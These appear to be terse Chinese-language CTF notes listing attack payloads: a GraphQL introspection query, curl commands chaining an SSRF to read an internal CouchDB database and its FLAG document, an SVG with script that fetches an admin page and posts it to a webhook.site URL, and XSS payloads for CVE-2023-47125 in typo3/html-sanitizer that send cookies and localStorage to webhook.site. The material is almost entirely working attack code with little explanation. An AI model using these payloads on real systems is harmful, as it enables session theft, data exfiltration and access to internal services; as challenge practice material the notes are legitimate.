 GraphQL 查询所有字段

{
"query": "query IntrospectionQuery { __schema { types { name kind description fields { name description args { name description type { name kind ofType { name kind } } } type { name kind ofType { name kind } } } } } }"
}

SSRF利用

#目标端口扫描 couchdb
curl -X POST 'http://94.237.50.221:39660/api/dashboard/endpoints/' -H 'Cookie: token=whale' -H 'Content-Type: application/json' -d "{\"url\":\"[http://127.0.0.1:5984/#\\",\\"sector\\":\\"whale_get_4369\\"}"](http://127.0.0.1:5984/#%5C%5C%22,%5C%5C%22sector%5C%5C%22:%5C%5C%22whale_get_4369%5C%5C%22%7D%22)
curl -X GET 'http://94.237.50.221:39660/api/dashboard/metrics' -H 'Cookie: token=whale'

#couchdb路径 dbs

curl -X POST 'http://94.237.50.221:39660/api/dashboard/endpoints/' -H 'Cookie: token=whale' -H 'Content-Type: application/json' -d "{\"url\":\"[http://127.0.0.1:5984/_all_dbs#\\",\\"sector\\":\\"whale_get_5984_all_dbs\\"}"](http://127.0.0.1:5984/_all_dbs#%5C%5C%22,%5C%5C%22sector%5C%5C%22:%5C%5C%22whale_get_5984_all_dbs%5C%5C%22%7D%22)
curl -X GET 'http://94.237.50.221:39660/api/dashboard/metrics' -H 'Cookie: token=whale'

curl -X POST 'http://94.237.50.221:39660/api/dashboard/endpoints/' -H 'Cookie: token=whale' -H 'Content-Type: application/json' -d "{\"url\":\"[http://127.0.0.1:5984/citismart#\\",\\"sector\\":\\"whale_get_5984_citismart\\"}"](http://127.0.0.1:5984/citismart#%5C%5C%22,%5C%5C%22sector%5C%5C%22:%5C%5C%22whale_get_5984_citismart%5C%5C%22%7D%22)
curl -X GET 'http://94.237.50.221:39660/api/dashboard/metrics' -H 'Cookie: token=whale'
curl -X POST 'http://94.237.50.221:39660/api/dashboard/endpoints/' -H 'Cookie: token=whale' -H 'Content-Type: application/json' -d "{\"url\":\"[http://127.0.0.1:5984/citismart/_all_docs#\\",\\"sector\\":\\"whale_get_5984_citismart_all_docs\\"}"](http://127.0.0.1:5984/citismart/_all_docs#%5C%5C%22,%5C%5C%22sector%5C%5C%22:%5C%5C%22whale_get_5984_citismart_all_docs%5C%5C%22%7D%22)
curl -X GET 'http://94.237.50.221:39660/api/dashboard/metrics' -H 'Cookie: token=whale'
curl -X POST 'http://94.237.50.221:39660/api/dashboard/endpoints/' -H 'Cookie: token=whale' -H 'Content-Type: application/json' -d "{\"url\":\"[http://127.0.0.1:5984/citismart/FLAG#\\",\\"sector\\":\\"whale_get_5984_citismart_FLAG\\"}"](http://127.0.0.1:5984/citismart/FLAG#%5C%5C%22,%5C%5C%22sector%5C%5C%22:%5C%5C%22whale_get_5984_citismart_FLAG%5C%5C%22%7D%22)
curl -X GET 'http://94.237.50.221:39660/api/dashboard/metrics' -H 'Cookie: token=whale' | grep FLAG


上传svg 再构造query让管理员访问，将管理员页面内容反弹回webhook
<svg xmlns="http://www.w3.org/2000/svg" width="400" height="400">
  <script type="text/javascript">
    // Fetch the admin dashboard and exfiltrate via webhook
    fetch('/admin')
      .then(res => res.text())
      .then(html =>
        fetch('https://webhook.site/ac03410c-e005-4aa4-85c8-b0eeadab1367', {
          method: 'POST',
          body: btoa(html)
        })
      );
  </script>
</svg>



DOM存储型XSS
PHP组件：
 "typo3/html-sanitizer": "2.1.3"
 CVE-2023-47125
DOM 处理指令未得到正确处理。这允许绕过 的跨站点脚本机制typo3/html-sanitizer
<?xml s><img src="x" onerror="fetch('https://webhook.site/6dbbdd70-feef-4c04-a328-f5a96a14350c?x='+localStorage.getItem('flag'))">?>
<?xml s><img src="x" onerror="fetch('https://webhook.site/6dbbdd70-feef-4c04-a328-f5a96a14350c?x='+document.cookie)">?>
